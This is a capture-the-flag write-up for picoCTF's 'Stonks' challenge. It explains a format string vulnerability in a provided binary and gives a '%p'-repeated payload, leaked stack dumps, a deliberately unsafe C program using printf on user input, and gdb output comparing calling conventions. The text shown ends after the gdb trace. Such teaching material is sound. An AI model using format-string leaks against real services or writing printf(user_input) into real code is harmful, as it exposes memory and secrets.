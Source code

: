 # Stonks

The initial problem definition from their website is as follows:

> I decided to try something no one else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/fdf270d959fa5231e180e2bd11421d0c/vuln.c) `nc mercury.picoctf.net 16439`

_taken from_ [_PicoCTF_](https://picoctf.net)

## Solution

When we examine the program with a code editor, we see that it's using the unsafe version of `printf` when getting the users' authorization token.

With the unsafe version of `printf` we can dump the binary's content and execute code. Also important to know for this are calling conventions. During our first look at the problem, we noticed that the server was dumping _some_ data from the program but not which data, _exactly_. Consider our experimental setup below:

`$ ./vuln < <(python3 -c "print(1);print('%p.' * 20)")`

This small python snippet was executed and dumped the following memory fragment from below.

```html
0x1.0x1.0x7f3008bc6190.0x55744ead10d5.0x7f3008ca0a80.0x7ffdc1c45b20.0x55744f6d52a0.
0x7b4654436f636970.0x5f737469625f3631.0x5f64343374736e69.0x3636325f385f666f.
0x7d3032633438.0x7f3008ca0260.0x55744ead3080.0x7f3008c9d5e0.0x7f3008cf0020.
0x7f3008b4fe79.0x7f3008ca1760.0x7f3008b50283.0x14.
```

While we know that some values are ASCII characters, we could not find indicators as to why the first two variables were `1`s. The solution was that under `64 bit` Linux, the calling convention for syscalls takes arguments from the registers first, unlike with `32 bit` Linux. When compiling the binary under `32 bit` with the flag `-m32` in `gcc`, we see that we get a different result:

```html
0x567bb3d0.0x565caff4.0x565c84ae.0xf7f76da0.0x7d4.0xf7f76de7.0x6f636970.0x7b465443.
0x625f3631.0x5f737469.0x74736e69.0x5f643433.0x385f666f.0x3636325f.0x32633438.
0xff007d30.0xf7fcac18.0xf7f8e800.0x1.0x1.
```

### Verification of our Hypotheses

To verify this hypothesis we constructed a smaller binary from this source:

```c
#include<stdio.h>
#include <string.h>

int main()
{
    char str[15];
    char *secret= "You don't get to see this";
    puts("I will repeat whatever you say");
    scanf("%s",str);
    strcat(str, "\n");
    printf(str);
    return 0;
}
```

Verification with `gdb` indicated that it was indeed the case that `printf` took variables for the `32 bit` version from the stack first instead of using the registers like in the `64 bit` version. We used the format string `%p.%p.%p.%p.%p.%p.` and got `0xffffcd3d.0xf7da8a2f.0x565561d4.0xf7fc14a0.0xf7fd98cb.0xf7da8a2f.` as an answer. We verify this by looking at the stack from `gdb` at the point in execution when `printf` executes. Since `printf` takes all arguments from the stack, we also see that we leak pointers that lie behind this.

```c
[----------------------------------registers-----------------------------------]
EAX: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EBX: 0x56558ff4 --> 0x3ef0
ECX: 0x330d ('\r3')
EDX: 0x12
ESI: 0x56558eec ("`aUV\001")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0xffffcd58 --> 0x0
ESP: 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
EIP: 0x5655622d (<main+112>:    call   0x56556040 <printf@plt>)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x56556226 <main+105>:       sub    esp,0xc
   0x56556229 <main+108>:       lea    eax,[ebp-0x1b]
   0x5655622c <main+111>:       push   eax
=> 0x5655622d <main+112>:       call   0x56556040 <printf@plt>
   0x56556232 <main+117>:       add    esp,0x10
   0x56556235 <main+120>:       mov    eax,0x0
   0x5655623a <main+125>:       lea    esp,[ebp-0x8]
   0x5655623d <main+128>:       pop    ecx
Guessed arguments:
arg[0]: 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0004| 0xffffcd24 --> 0xffffcd3d ("%p.%p.%p.%p.%p.%p.\n")
0008| 0xffffcd28 --> 0xf7da8a2f ("_dl_audit_preinit")
0012| 0xffffcd2c --> 0x565561d4 (<main+23>:     add    ebx,0x2e20)
0016| 0xffffcd30 --> 0xf7fc14a0 --> 0xf7d8c000 --> 0x464c457f
0020| 0xffffcd34 --> 0xf7fd98cb (mov    edi,eax)
0024| 0xffffcd38 --> 0xf7da8a2f ("_dl_audit_preinit")
0028| 0xffffcd3c --> 0x2e7025a0
[------------------------------------------------------------------------------]
```
